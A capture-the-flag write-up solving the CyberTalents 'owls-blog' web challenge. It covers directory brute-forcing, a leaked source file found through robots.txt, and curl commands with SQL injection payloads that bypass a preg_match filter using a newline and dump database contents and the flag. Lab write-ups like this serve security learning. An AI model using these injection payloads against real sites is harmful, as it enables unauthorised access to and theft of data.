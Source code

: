 # Solve owls-blog
#### https://cybertalents.com/challenges/web/owls-blog

![alt text](image.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com -x 403,404`
*you can find the output in [Directories.txt](Directories.txt)*

Scan robots.txt with `curl http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com/robots.txt`

```txt
User-agent: *
Disallow: git.phps
```
Download git.phps 
*You can find the file in [git.phps](git.phps)*

By analyzing the source code we found: 
  - Query structure `SELECT * FROM topics where topicname like '%$search%'`
  - DB type : mysql
  - DB Table : topics

### Analyze serach request with burp

```http
POST / HTTP/1.1
Host: wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com/
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _fbp=fb.1.1718765789636.122478108392360263; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0
Upgrade-Insecure-Requests: 1

search=test
```

Try cause error in the sql with `'` we got `Hack Detected`

It trigger the if condition. 

### Try to bypass it
Because we have `preg_match` we can bypass it with new line `%0A`

#### Enumerate the database
- Version
```bash
curl http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com -d "search=test%0A ' union SELECT @@version #"

10.3.23-MariaDB-0+deb10u1
```
- Dump Databases
```bash
curl http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com -d "search=test%0A ' union SELECT schema_name FROM information_schema.schemata #"

information_schema
```
- Dump tables
```bash
curl http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com -d "search=test%0A ' union SELECT table_schema AS schema_name, table_name FROM information_schema.tables #"

No ouput
```

- Dump number of tables in the database
```bash
curl http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com -d "search=test%0A ' union SELECT COUNT(*) FROM information_schema.tables #"  

161
```
Note: we can't veiw the tables because the database has **161** table.

- Dump topics table
```bash
curl http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com -d "search=test%0A ' union SELECT * FROM topics #"

Owels Laughs at Youu !!
```
- Dump flag
```bash
curl http://wcamxwl32pue3e6mk873oo7fw3y0j6zqdkgxu639-web.cybertalentslabs.com -d "search=test%0A ' union SELECT * FROM flag #"

Flag{R3G3X_Ar3_N0T_G00D_For_OW3ls}
```

>Find More on ==> github.com/MedhatHassan 